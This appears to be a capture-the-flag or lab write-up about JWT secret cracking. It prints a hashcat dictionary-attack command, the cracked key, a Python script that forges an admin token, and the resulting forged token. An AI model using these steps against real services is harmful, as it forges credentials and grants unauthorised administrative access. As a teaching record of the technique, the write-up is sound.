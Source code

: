 # JWT Cracking and Privilege Escalation Write-up

## Executive Summary
This report documents the successful exploitation of a JSON Web Token (JWT) vulnerability, resulting in privilege escalation to administrative access. By cracking the JWT secret key and forging a modified token, we were able to manipulate user identity parameters to gain elevated permissions.

## Target JWT
```
eyJhbGciOiJIUzI1NiJ9.eyJpZCI6MTcsInVzZXJuYW1lIjoiYWRtaW4iLCJjb2RlbmFtZSI6ImFkbWluIiwiaWF0IjoxNzQ2OTQ0Mzk5LCJleHAiOjE3NDcwMzA3OTl9.Meiri0srFara5igrbNl8ibFyeYXqkeemtM3XFNi932Q
```

## Methodology

### 1. JWT Analysis

First, we decoded the JWT structure to understand its components:

**Header:**
```json
{
  "alg": "HS256"
}
```

**Original Payload:**
```json
{
  "id": 17,
  "username": "admin",
  "codename": "admin",
  "iat": 1746944399,
  "exp": 1747030799
}
```

### 2. Secret Key Cracking

The JWT used HMAC-SHA256 (HS256) for signature verification, which relies on a secret key. We employed a dictionary attack using the following approach:

1. Extracted the header and payload from the JWT
2. Utilized `hashcat` with the `rockyou.txt` wordlist to brute-force potential keys
3. Command executed:
   ```bash
   hashcat -a 0 -m 16500 "eyJhbGciOiJIUzI1NiJ9.eyJpZCI6MTcsInVzZXJuYW1lIjoiYWRtaW4iLCJjb2RlbmFtZSI6ImFkbWluIiwiaWF0IjoxNzQ2OTQ0Mzk5LCJleHAiOjE3NDcwMzA3OTl9.Meiri0srFara5igrbNl8ibFyeYXqkeemtM3XFNi932Q" rockyou.txt
   ```

**Secret Key Discovery:** `1littlesecret`

### 3. Payload Modification for Privilege Escalation

We identified that modifying the following fields would grant administrative access:
- `id`: Change from `17` to `0` (root/superuser ID)
- `username`: Change from `admin` to `administrator` (system admin account)

**Modified Payload:**
```json
{
  "id": 0,
  "username": "administrator",
  "codename": "administrator",
  "iat": 1746944399,
  "exp": 1747030799
}
```

### 4. JWT Forging

Using the discovered secret key, we generated a new JWT with the modified payload:

```python
import jwt

# Modified payload with elevated privileges
payload = {
    "id": 0,
    "username": "administrator",
    "codename": "administrator",
    "iat": 1746944399,
    "exp": 1747030799
}

# Generate new JWT using the cracked secret
forged_token = jwt.encode(payload, "1littlesecret", algorithm="HS256")
print(forged_token)
```

## Results

### Forged JWT
```
eyJhbGciOiJIUzI1NiJ9.eyJpZCI6MCwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIiwiY29kZW5hbWUiOiJhZG1pbmlzdHJhdG9yIiwiaWF0IjoxNzQ2OTQ0Mzk5LCJleHAiOjE3NDcwMzA3OTl9.QH_Xm91_sL_KQs-h60XUzGU4sZzQe1OdFVa0j_W0U3A
```

This forged JWT, when applied to the Authentication header (`Authorization: Bearer [JWT]`), successfully granted administrative access to protected resources.
